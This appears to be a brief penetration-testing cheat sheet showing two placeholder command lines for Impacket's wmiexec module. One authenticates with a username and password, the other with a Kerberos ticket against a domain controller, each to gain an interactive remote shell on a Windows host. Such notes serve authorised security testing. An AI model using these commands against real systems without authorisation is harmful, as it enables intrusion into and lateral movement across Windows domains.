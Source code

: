 # Impacket-wmiexec

### Use this impacket module to gain an interactive shell

#### 1) 

    impacket-wmiexec.py DOMAIN/USERNAME:PASSWORD@IP_ADDRESS

#### 2) 

    impacket-wmiexec DOMAIN/USERNAME@DC.DOMAIN.LOCAL -k -no-pass (Authenticate with a kerberos ticket impersonating the user)
